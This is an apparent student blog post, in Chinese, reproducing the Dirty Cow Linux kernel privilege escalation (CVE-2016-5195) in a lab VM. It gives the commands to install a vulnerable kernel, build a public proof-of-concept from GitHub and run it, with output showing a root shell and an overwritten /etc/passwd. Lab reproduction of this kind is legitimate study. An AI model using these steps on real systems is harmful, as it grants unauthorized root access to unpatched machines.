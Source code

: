 ```yaml
---
title: CVE-2016-5195
date: 2025-04-14 22:50:00
tags: [Web, 渗透]
categories: 渗透
---
```


Dirty Cow 提权漏洞复现。
<!--more-->

## 前言

比较有名的漏洞，刚好系统安全的作业就是要复现这个漏洞，正好写了。

## 复现

中大镜像站内网镜像下载地址：<https://mirrors.matrix.moe/ubuntu-releases/16.04/ubuntu-16.04.7-desktop-amd64.iso>

下一个 Ubuntu 16.04 的镜像（这个是因为作业让我用这个版本，选其他的应该也行），看一下内核版本

```bash
$ uname -a
Linux ubuntu 4.15.0-112-generic #113~16.04.1-Ubuntu SMP Fri Jul 10 04:37:08 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

太新了，换个老点的 kernel，可以大概参考[官方的 Patched Kernel Versions](https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-Versions)（但是好像不完全准确？），我选了 4.4.0

```bash
sudo apt-get install linux-image-4.4.0-21-generic \
                    linux-headers-4.4.0-21-generic
```

再改一下 GRUB 配置

```bash
sudo nano /etc/default/grub
```

改成如下配置，没有的就加上

```bash
GRUB_TIMEOUT=10
GRUB_TIMEOUT_STYLE=menu
```

然后更新一下 GRUB（别忘了）

```bash
sudo update-grub
```

重启一下，在 GRUB 菜单选择 `Advanced options for Ubuntu`，然后选择 `4.4.0-21-generic` 版本的内核，回车进入系统。

```bash
uname -a
Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

看到内核已经是老的了，可以开搞了。
去 GitHub 偷一个 PoC

```bash
git clone https://github.com/gbonacini/CVE-2016-5195.git
cd CVE-2016-5195
make
```

然后执行一下，root 就到手了

```bash
$ ./dcow -s
Running ...
Password overridden to: dirtyCowFun

Received su prompt (Password: )

\cp /tmp/.ssh_bak /etc/passwd
\rm /tmp/.ssh_bak
root@ubuntu:~# echo 0 > /proc/sys/vm/dirty_writeback_centisecs
root@ubuntu:~# \cp /tmp/.ssh_bak /etc/passwd
root@ubuntu:~# \rm /tmp/.ssh_bak
root@ubuntu:~#
```

### 拓展之 GRUB

GRUB，全称 GRand Unified Bootloader，就是一个引导程序，是计算机启动时第一个加载的软件，负责加载操作系统的内核，然后由内核初始化操作系统的其他部分（如 shell、显示管理、桌面环境等）。

但是还有一个有意思的点 —— GRUB 既是引导程序，也是一个引导管理器。

那么引导管理器又是个什么东东呢？

也不复杂，它的作用就是让你能选择不同的操作系统（当然你得有两个以上的操作系统才有得选是吧）

## 原理

极致省流版原理：**条件竞争导致只读文件被写入**

可以先说说这个命令的由来，相信熟悉 Docker 的同学对写时复制（Copy-On-Write）这个概念并不陌生，这个机制的意思就是一个资源被复制成两份时，如果双方都不存在修改，那么**实际上就只会存在一份资源**。熟悉 Python 的同学也可以尝试一下如下代码：

```python
a = 1
b = 1
print(id(a), id(b))  # 140714691031848 140714691031848
print(a is b)  # True
a = 2
print(id(a), id(b))  # 140714691031880 140714691031848
```

// To be continued...

## 总结

有种把最近学的都串起来的爽感，包括 COW、条件竞争这些。

## 参考

[CVE-2016-5195](https://dirtycow.ninja/)
[经典内核漏洞复现之 dirtycow](https://blingblingxuanxuan.github.io/2023/05/02/230501-dirtycow-analysis/)
[Linux Jargon Buster: What is Grub in Linux? What is it Used for?](https://itsfoss.com/what-is-grub/)
